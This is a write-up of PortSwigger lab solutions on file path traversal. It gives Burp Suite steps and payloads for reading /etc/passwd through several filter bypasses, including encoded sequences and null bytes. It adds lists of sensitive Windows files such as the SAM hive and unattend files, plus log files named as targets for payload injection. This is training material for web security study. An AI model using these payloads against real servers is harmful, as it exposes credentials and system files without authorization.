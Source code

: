 <!-- omit in toc -->
# Dreictory traversal

<!-- omit in toc -->
## Table of Contents

- [File path traversal, simple case](#file-path-traversal-simple-case)
- [File path traversal, traversal sequences blocked with absolute path bypass](#file-path-traversal-traversal-sequences-blocked-with-absolute-path-bypass)
- [File path traversal, traversal sequences stripped non-recursively](#file-path-traversal-traversal-sequences-stripped-non-recursively)
- [File path traversal, traversal sequences stripped with superfluous URL-decode](#file-path-traversal-traversal-sequences-stripped-with-superfluous-url-decode)
- [File path traversal, validation of start of path](#file-path-traversal-validation-of-start-of-path)
- [File path traversal, validation of file extension with null byte bypass](#file-path-traversal-validation-of-file-extension-with-null-byte-bypass)

## File path traversal, simple case
Reference: https://portswigger.net/web-security/file-path-traversal/lab-simple

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify a request that fetches a product image.
2. Modify the ``filename`` parameter, giving it the value:
```
../../../etc/passwd
```
3. Observe that the response contains the contents of the ``/etc/passwd`` file.

## File path traversal, traversal sequences blocked with absolute path bypass
Reference: https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify a request that fetches a product image.
2. Modify the ``filename`` parameter, giving it the value ``/etc/passwd``.
3. Observe that the response contains the contents of the ``/etc/passwd`` file.

## File path traversal, traversal sequences stripped non-recursively
Reference: https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify a request that fetches a product image.
2. Modify the ``filename`` parameter, giving it the value:
```
....//....//....//etc/passwd
```
3. Observe that the response contains the contents of the ``/etc/passwd`` file.

## File path traversal, traversal sequences stripped with superfluous URL-decode
Reference: https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify a request that fetches a product image.
2. Modify the ``filename`` parameter, giving it the value:
```
..%252f..%252f..%252fetc/passwd
```
3. Observe that the response contains the contents of the ``/etc/passwd`` file.

## File path traversal, validation of start of path
Reference: https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path

tag:
Missing parameter 'filename'

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify a request that fetches a product image.
2. Modify the ``filename`` parameter, giving it the value:
```
/var/www/images/../../../etc/passwd
```
3. Observe that the response contains the contents of the ``/etc/passwd`` file.

## File path traversal, validation of file extension with null byte bypass
Reference

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify a request that fetches a product image.
2. Modify the ``filename`` parameter, giving it the value:
```
../../../etc/passwd%00.png
```
3. Observe that the response contains the contents of the ``/etc/passwd`` file.

additional bypass:

GET /%2e%2e%2e%2F%2e%5C%2Fetc/passwd


----------------------------------------------------------------------------------------
----------------------------------------------------------------------------------------
----------------------------------------------------------------------------------------
BONUS: Tests for Windows

Interesting Windows files

Always existing file in recent Windows machine. Ideal to test path traversal but nothing much interesting inside...

c:\windows\system32\license.rtf
c:\windows\system32\eula.txt

Interesting files to check out (Extracted from https://github.com/soffensive/windowsblindread)

c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system

----------------------------------------------------------------------------------------
----------------------------------------------------------------------------------------
----------------------------------------------------------------------------------------

BONUS: The following log files are controllable and can be included with an evil payload to achieve a command execution

/var/log/apache/access.log
/var/log/apache/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail